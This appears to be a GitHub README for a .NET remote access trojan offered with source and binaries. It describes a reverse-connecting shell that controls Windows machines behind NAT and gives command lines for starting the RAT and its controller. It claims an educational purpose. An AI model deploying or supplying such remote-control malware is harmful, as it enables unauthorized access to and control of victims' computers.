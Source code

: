 # Remote Access Trojan (RAT) 
# Build In .NET Socket's
`For Windows`

Client-server binaries and source-code for controlling a remote machine behind a NAT with a command-line shell in Windows. Although the core provides support for communication with multiple RATs, the command-line interface used has limited capabilities distinguishing each one.
The RAT process executable does not hide itself from taskbar or task manager as it was developed for educational purposes only. Please do not use for any malicious purposes.
- source code 
-  two binaries packed in ILMerge.

Replication of RAT:

1. Start the server in a command-line acting as the RAT (Binaries\rat.exe) -> 
rat ip=[controller-ip-address] port=[controller-port-default-is-9999]

2. Start the client in a command-line acting as the controller (Binaries\controller.exe) -> 
controller ip=[listen-ip-address] port=[listen-port-default-is-9999]

3. Issue commands from the controller.exe interface


`This tool is in developement phase so, apologies for encounter with Bugs.`
